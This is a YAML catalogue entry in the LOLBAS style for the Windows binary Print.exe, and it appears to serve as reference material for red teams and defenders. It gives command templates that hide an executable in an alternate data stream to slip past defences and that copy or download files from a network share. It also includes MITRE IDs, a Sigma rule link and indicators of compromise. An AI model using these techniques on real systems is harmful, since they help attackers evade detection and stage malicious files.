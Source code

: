 ```yaml
---
Name: Print.exe
Description: Used by Windows to send files to the printer
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: print /D:{PATH_ABSOLUTE}:file.exe {PATH_ABSOLUTE:.exe}
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
    Usecase: Hide binary file in alternate data stream to potentially bypass defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:{PATH_ABSOLUTE:.dest.exe} {PATH_ABSOLUTE:.source.exe}
    Description: Copy file from source to destination
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:{PATH_ABSOLUTE:.dest.exe} {PATH_SMB:.source.exe}
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
    Usecase: Copy/Download file from remote server
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\print.exe
  - Path: C:\Windows\SysWOW64\print.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_print_remote_file_copy.yml
  - IOC: Print.exe retrieving files from internet
  - IOC: Print.exe creating executable files on disk
Resources:
  - Link: https://twitter.com/Oddvarmoe/status/985518877076541440
  - Link: https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

